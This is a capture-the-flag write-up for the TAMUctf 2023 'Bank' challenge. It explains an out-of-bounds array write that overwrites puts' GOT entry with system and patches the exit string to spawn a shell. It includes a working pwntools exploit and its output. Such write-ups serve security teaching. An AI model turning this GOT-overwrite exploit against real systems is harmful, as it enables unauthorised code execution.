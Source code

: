 ```yaml
---
title: "TAMUctf 2023"
date: 2023-05-01T13:26:08+10:00
draft: false
tags: ['pwn']
---
```

<!--more-->
# Bank {#bank}

We're given three files.
- bank (ELF 64-bit)
- bank.c
- libc.so.6

Looks like we're going to have to ret2libc at some point so lets see where that's going to happen. Below is the source from `bank.c`.
```c
#include <stdio.h>

long accounts[100];
char exit_msg[] = "Have a nice day!";

void deposit() {
    int index = 0;
    long amount = 0;
    puts("Enter the number (0-100) of the account you want to deposit in: ");
    scanf("%d", &index);
    puts("Enter the amount you want to deposit: ");
    scanf("%ld", &amount);
    accounts[index] += amount;
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    deposit();
    deposit();
    puts(exit_msg);
}
```
Okay, it's pretty short. First thing I notice is that the `deposit()` function gives us write capabilities with a bit of a catch. So take a look at these lines in particular.
```c
    puts("Enter the number (0-100) of the account you want to deposit in: ");
    scanf("%d", &index);
    puts("Enter the amount you want to deposit: ");
    scanf("%ld", &amount);
    accounts[index] += amount;
```
So we can give an arbitrary 'account number' and 'amount' which will be used to index and add to the array respectively. That means we can provide an integer offset to any address and add some amount to the value stored at that location.
Before we get to excited lets `checksec` the binaries we were given.
```zsh
└─$ checksec --file=bank       
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols        No    0               0               bank

└─$ checksec --file=libc.so.6  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    DSO             No RPATH   No RUNPATH   No Symbols        Yes   79              170             libc.so.6
```
The notable missing protections are `RELRO` and `PIE` on the `bank` binary. That means there's no address randomisation and we can freely overwrite GOT entries.
So the plan is straight forward from here.
1. Find the GOT entry that points to `puts` in libc (We know there's an entry for `puts` since the binary uses it and there's no PIE so we just have to check the binary for where that entry is)
2. Use `deposit()` to add whatever offset we need to get to a function like `system()`
The only issue now is that we need to pass a command to `system()` when it gets called. I think the best option would be to overwrite a string that `puts()` uses to include `;/bin/sh`. Luckily there's an exit message that gets defined in the `bank` binary and is called at the end of the program.
```c
#include <stdio.h>

long accounts[100];
char exit_msg[] = "Have a nice day!";

//...snip...

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    deposit();
    deposit();
    puts(exit_msg);
}
```
Sweet, so we'll use the first `deposit()` call to modify the `exit_msg` to include `;/bin/sh` and the second one to overwrite the GOT entry for `puts` to point to `system`.
We can script that using pwntools, as shown below.
```python
from pwn import *

io = remote("tamuctf.com", 443, ssl=True, sni="bank")
elf = ELF('./bank')
libc = ELF('./libc.so.6')

def puts_to_system():
    gotputs_off = (elf.got['puts']-elf.symbols['accounts'])//8 # Find the offset we need to index in the array based on the location of our 'accounts' array.
    log.success("Calculated offset " + str(hex(gotputs_off)) + ' : ' + str(hex(elf.symbols['accounts'])) + ' - ' + str(hex(elf.got['puts']))) # Log our calculations.
    io.sendline(bytes(str(gotputs_off),'ascii')) # Send the index
    io.sendline(bytes(str(libc.symbols['system']-libc.symbols['puts']),'ascii')) # Send the offset between puts and system in libc

def corrupt_exitmsg():
    exitmsg_addr = next(elf.search(b'Have a nice day!')) # Find the address of the exit message in the bank binary
    log.success("Exit message string found at " + str(hex(exitmsg_addr)))
    exitmsg_off = (exitmsg_addr-elf.symbols['accounts']+0x10)//8 # Calculate the index in the array that will land us at the exitmsg in memory, we add 0x10 to get to the end of the string. We overwrite the null byte at the end of the string.
    io.sendline(bytes(str(exitmsg_off),'ascii')) # Send the index
    io.sendline((str(u64(b';/bin/sh'.ljust(8,b'\x00'))))) # Send the ';/bin/sh' string as an integer with null bytes to terminate the string. Note that in memory there were null bytes after the string, so when we send our integer it is equivelent to just writing whatever we want.

corrupt_exitmsg() # Corrupt the message
puts_to_system() # Change puts GOT entry to point to system

io.interactive()
```
Running that, we get a shell and the flag.
```zsh
└─$ python3 solver-template.py      
[+] Opening connection to tamuctf.com on port 443: Done
[+] Calculated offset -0x10 : 0x403460 - 0x4033e0
[*] Switching to interactive mode
Enter the number (0-100) of the account you want to deposit in: 
Enter the amount you want to deposit: 
Enter the number (0-100) of the account you want to deposit in: 
Enter the amount you want to deposit: 
sh: 1: Have: not found
$ ls
bank
docker_entrypoint.sh
flag.txt
$ cat flag.txt
gigem{a_v3ry_h3fty_d3p0s1t}
```
> gigem{a_v3ry_h3fty_d3p0s1t}

